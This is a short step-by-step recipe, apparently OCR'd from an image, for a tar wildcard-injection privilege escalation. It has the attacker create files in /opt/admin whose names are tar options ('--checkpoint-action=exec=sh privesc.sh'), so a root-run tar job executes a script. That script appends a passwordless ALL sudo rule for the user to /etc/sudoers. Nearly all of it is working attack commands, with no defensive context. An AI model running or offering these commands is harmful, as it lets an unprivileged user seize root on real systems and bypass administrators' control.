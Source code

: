 

=== tar privilege escalation ==

Step 1: Go to /opt/admin

cd /opt/admin

Step 2: Create malicious filenames (these become tar options)

echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh privesc.sh"

Step 3: Create a root privilege escalation script

echo 'echo "youruser ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > privesc.sh
chmod +x privesc.sh
